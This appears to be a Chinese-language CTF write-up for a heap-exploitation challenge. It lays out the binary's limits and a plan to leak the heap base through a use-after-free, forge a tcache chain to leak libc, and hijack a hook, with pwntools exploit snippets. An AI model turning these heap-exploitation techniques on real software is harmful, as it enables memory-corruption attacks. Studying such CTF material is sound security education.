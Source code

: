 - 没有chunk编辑函数，只能在malloc的时候编辑chunk内容，即无法修改tcache的flag内容。

- 有两个全局变量限制了malloc和free的次数，free仅能11次，malloc次数很多不用太担心。

- 每个chunk的size被限制在0x40。

![img](https://img-blog.csdnimg.cn/641a2a24c6634e648470ba9c17bacca3.png)

##  思路整理

我们来看看可以拿到的信息有哪些。首先，由于新libc的机制，我们可以利用uaf漏洞轻松获取heapbase，这里的key是新libc环境下用来xor操作的值。

```Python
add(0,'aaaa')
free(0)
show(0)
io.recvuntil('Content: ')
key=u64(io.recvuntil('\x0a')[:-1].ljust(8,b'\x00')) #key
heap_base = key<<12
success('key-->'+hex(key))
success('heap-->'+hex(heap_base))
```

 

![img](https://img-blog.csdnimg.cn/1e140e2c358548f7b56cec373b77f0d8.png)

其次，考虑如何泄露libc，由于存在UAF，我们一般可以通过unsortbin来进行泄露。但是问题在于，每个chunk的size都不够大，即便填满tache也只会进入fastbin，而不是unsortbin。在这里，我想到了两个思路

- 其一，在程序开头我们输入了一个size，并malloc了一个8*size的chunk用来起到note记录的作用。即这个chunk的size是可控的，**更重要的是这个chunk没有限制大小**如果可以free这个chunk进入unsortbin，便可以实现libc的泄露。但是在这种思路下，考虑填满tcache需要7次free，doublefree控制指针指向notechunk需要2-3次free，泄露libc需要一次free，然后再次doublefree劫持hook。free的次数显然超过11次，暂时无法实现，如果有大佬有方法通过控制开头的notechunk来解出这道题，希望能指点下我😭

- 其二，我们可以尝试伪造一个tcache链，使得其实际size小于0x40，利用溢出构造伪造巨大chunk头并free进入unsortbin，得到libc。同时在这种情况下，我们也可以用溢出轻易完成对freechunk内容的更改，以此劫持hook

下面我们采用第二种思路

### 一、得到heapbase

开始先申请几个chunk，多申请的那几个是用来扩充可控堆区域的大小，为伪造的大chunk提供空间，不然覆盖进topchunk程序会崩掉。这个步骤比较简单，前面也谈到了不过多赘述

 

```Python
io.recvuntil('How many pages your notebook will be? :')
io.sendline('16')

for i in range(16):
    add(i,'aaaaaaaa')

add(15,'cccccccc')
add(15,'cccccccc')
add(15,'cccccccc')

free(0)
show(0)
io.recvuntil('Content: ')
key=u64(io.recvuntil('\x0a')[:-1].ljust(8,b'\x00')) #key
heap_base = key<<12
success('key-->'+hex(key))
success('heap-->'+hex(heap_base))
```
